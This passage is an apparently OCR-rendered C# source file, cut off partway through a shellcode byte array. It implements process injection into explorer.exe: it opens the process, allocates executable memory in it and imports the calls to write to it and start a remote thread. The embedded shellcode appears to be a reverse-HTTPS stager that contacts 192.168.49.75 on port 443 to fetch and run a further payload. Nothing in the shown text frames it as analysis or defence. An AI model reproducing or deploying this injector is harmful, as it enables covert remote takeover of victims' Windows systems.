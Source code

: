 1

2
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")] static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    [DllImport("kernel32.dll")] static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    public TestClass()
    {
        Process[] ipByName = Process.GetProcessesByName("explorer");
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, ipByName[0].Id);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        byte[] buf = new byte[787] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,
0x20,0x51,0x56,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x44,0x8b,
0x40,0x20,0x8b,0x48,0x18,0x50,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x4d,
0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,
0x0d,0xac,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58,
0x48,0x01,0xd0,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,
0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,
0x07,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,
0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,0xd5,
0xe8,0x0e,0x00,0x00,0x00,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,
0x2e,0x37,0x35,0x00,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x01,0x00,0x00,
0x4d,0x31,0xc9,0x53,0x53,0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,
0x00,0x00,0x00,0xff,0xd5,0xe8,0xea,0x00,0x00,0x00,0x2f,0x31,0x64,0x4f,0x32,
0x36,0x58,0x74,0x35,0x69,0x46,0x71,0x4e,0x72,0x59,0x79,0x76,0x37,0x41,0x72,
0x62,0x6e,0x41,0x73,0x48,0x41,0x4d,0x36,0x64,0x49,0x55,0x6a,0x36,0x51,0x6b,
0x78,0x6a,0x6e,0x33,0x4c,0x65,0x49,0x50,0x44,0x66,0x47,0x68,0x52,0x6e,0x64,
0x58,0x37,0x48,0x79,0x45,0x58,0x73,0x79,0x6e,0x76,0x68,0x36,0x5a,0x50,0x2d,
0x71,0x6f,0x50,0x44,0x39,0x47,0x50,0x68,0x34,0x56,0x6e,0x4f,0x30,0x76,0x61,
0x34,0x38,0x70,0x76,0x51,0x53,0x52,0x68,0x55,0x6d,0x74,0x38,0x2d,0x6c,0x7a,
0x74,0x58,0x55,0x6c,0x6a,0x32,0x50,0x54,0x35,0x44,0x5f,0x79,0x39,0x37,0x48,
0x42,0x66,0x6e,0x52,0x66,0x6d,0x74,0x50,0x44,0x77,0x4d,0x6e,0x6c,0x5f,0x55,
0x53,0x45,0x61,0x63,0x68,0x31,0x66,0x35,0x68,0x6c,0x53,0x4b,0x36,0x42,0x78,
0x71,0x71,0x42,0x43,0x49,0x46,0x63,0x77,0x4a,0x72,0x69,0x77,0x50,0x47,0x33,
0x36,0x44,0x7a,0x76,0x6d,0x78,0x48,0x63,0x38,0x5a,0x6f,0x6a,0x74,0x44,0x66,
0x6e,0x32,0x48,0x51,0x47,0x4f,0x67,0x49,0x56,0x6e,0x68,0x78,0x31,0x6f,0x6c,
0x58,0x7a,0x6f,0x64,0x69,0x6c,0x63,0x31,0x38,0x70,0x43,0x4f,0x7a,0x6d,0x34,
0x46,0x64,0x76,0x74,0x54,0x37,0x74,0x33,0x7a,0x31,0x64,0x35,0x5f,0x45,0x72,
0x7a,0x6b,0x7a,0x79,0x67,0x4c,0x42,0x61,0x46,0x67,0x69,0x39,0x73,0x5f,0x65,
0x43,0x47,0x62,0x00,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,
0x48,0xb8,0x00,0x32,0xa8,0x84,0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,0xc7,